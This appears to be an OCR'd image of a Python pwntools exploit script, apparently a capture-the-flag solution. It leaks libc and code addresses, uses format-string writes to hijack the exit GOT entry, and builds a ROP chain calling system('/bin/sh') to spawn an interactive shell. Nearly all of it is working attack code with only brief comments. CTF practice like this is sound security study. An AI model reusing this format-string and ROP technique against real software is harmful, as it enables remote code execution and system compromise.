 ```python
code_leak = int(leak[0], 16)
libc_leak = int(leak[1], 16)

libc_base = libc_leak - (libc.sym['__libc_start_main'] + 243)
code_base = code_leak - 0x1211
exit_got = code_base + 0x5018

# Gadgets
# @Libc
system = libc_base + 0x55410
bin_sh = libc_base + 0x1b75aa

# @Chall
pop_r15_ret = code_base + 0x2bd2
pop_rdi_ret = code_base + 0x2bd3
ret = code_base + 0x101a

print(f'Leak : {list(map(lambda x : hex(int(x, 16)), leak))}')
info(f'Libc base : {hex(libc_base)}')
info(f'Code base : {hex(code_base)}')
info(f'system @ libc : {hex(system)}')
info(f'GOT of exit : {hex(exit_got)}')

# Hijack exit's GOT to run main again.
payload = '%{}c%22$hn'.format( (code_base + 0x1211) & 0xffff ).ljust(0x80, 'A').encode() + p64(exit_got)
p.sendlineafter('?\n', payload)
p.recvuntil('bye\n')

# Hijack exit@plt.got to pop_r15_ret and setup rop chain to open shell
info('Stacking ROPchain.')
payload = '%{}c%28$hn'.format( (pop_r15_ret) & 0xffff ).encode() 
p.sendlineafter('?\n', payload)

rop_chain = b''.join([
    p64(pop_rdi_ret),
    p64(bin_sh),
    p64(system),
])
print(hexdump(rop_chain))
p.sendlineafter('?\n', rop_chain)

success('Spawning a shell. OuO')
p.interactive()
```